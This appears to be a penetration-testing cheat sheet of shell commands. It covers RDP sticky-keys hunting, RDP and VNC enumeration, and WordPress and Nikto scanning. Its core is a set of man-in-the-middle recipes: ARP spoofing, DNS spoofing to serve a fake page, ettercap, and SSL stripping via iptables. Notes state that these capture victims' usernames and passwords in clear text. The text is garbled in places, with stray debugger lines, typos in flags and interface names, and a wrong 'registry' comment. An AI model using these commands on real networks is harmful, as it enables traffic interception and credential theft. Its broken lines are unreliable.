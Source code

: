 # Sticky Keys Hunter
stickyKeysHunter 10.0.0.1
# Install stickyKeyHunter
wget https://raw.githubusercontent.com/ztgrace/sticky_keys_hunter/master/stickyKeysHunter.sh; chmod u+x stickKeysHunter.sh; cp stickKeysHunter.sh /usr/local/sbin/stickyKeysHunter

# Enumerate RDP Security Settings
rdp-sec-check 10.0.0.1

# Install rdp-sec-check on Kali
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl -P /usr/local/sbin/rdp-sec-check
chmod +x /usr/local/sbin/rdp-sec-check
rdp-sec-check --help
debugger eval code:1:62
nmap -p 5800,5900 --sciprt=vnc-info.nse --script=vnc-title.nse 10.0.0.1
debugger eval code:1:62
REMINDER: Before listening ensure traffic forwarding is enabled on machine
echo 1 &gt; /proc/sys/net/ipv4/ip_forward
(sets registry value to allow forwarding of traffic)

ARPSPOOF
arpspoof -i eth0 -t 192.168.0.37 192.168.0.35
(i = interface t = target last ipv4 address is spoofed identity)
(use this method for packet capture programs in a large enough network this can cause issues if the gateway is spoofed)

DNSSPOOF
dnsspoof -i eht0 -f fakednsresolutions.txt
(fakednsresolutions.txt should read 192.168.0.35 osbornepro.com)
NOTE: In order to use this tool run command "service apache2 start" in order to replace web page with custom web page. Best for http not SSL https.

ETTERCAP
ettercap -Ti eth0 -M arp:remote /192.168.0.37/ /192.168.0.35/
(this spoofs arp of 192.168.0.37. -Ti = text interface -M = set up for spoofing default gateway
NOTE: If an SSL warning is ignored and users input their password and username they are captured and displayed in clear text.

SSLSTRIPING
iptables -t nat -A PREROUTING -p tcp --destination-port80 -j REDIRECT --to-port 8080
(sets and iptables rule to pass traffice headed for port 80 thorugh SSL Strip which here is run on port 8080)
sslstrip -l 8080
(opens sslstrip and tells it to listen on port 8080)
NOTE: This bypasses any certificate warnings and captures credentials in clear text
      debugger eval code:1:62
wpscan --url http://10.0.0.1/wp-parent --enumerate ap,at,cb,dbe --api-token aa7aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -o wpscan.results
debugger eval code:1:62
# NIKTO SCAN =================================
nikto -h 10.0.0.1
